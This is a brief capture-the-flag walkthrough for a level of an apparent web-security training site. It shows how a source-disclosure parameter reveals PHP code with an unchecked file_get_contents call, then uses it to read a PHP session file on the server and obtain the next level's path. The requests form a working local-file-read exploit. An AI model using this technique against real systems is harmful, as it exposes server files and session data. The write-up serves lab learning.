 # Level-23

Level23-24 (https://matrix.voorivex.academy/let-us-go-to-save-him!)

send this request:

```text
https://matrix.voorivex.academy/let-us-go-to-save-him!/?show-me-the-codes
```

you will get a php code:

```php
<?php
session_start();
if (isset($_GET['show-me-the-codes'])) {
    show_source("index.php");
    exit();
}

require_once("next.php");
$_SESSION['code'] = $next;

if (security_check($_GET['code'])) {
    echo file_get_contents($_GET['code']);
    die();
}

?>
```

this code sets value of `$next` to our session and then wants to get the content of the file
where sessions are stored on the server which is `/var/lib/sessions/`
we hava also a session value in our storage in the browser so we access the file:

```text
https://matrix.voorivex.academy/let-us-go-to-save-him!/?code=/var/lib/php/sessions/sess_4400f342e9b653eb94bdbb1a94b4bf08
```

you will get this:

```text
code|s:49:"/the-final-fight-f570a4b62b398c60db1b49599024f3aa";
```

go to:

```text
https://matrix.voorivex.academy/the-final-fight-f570a4b62b398c60db1b49599024f3aa
```
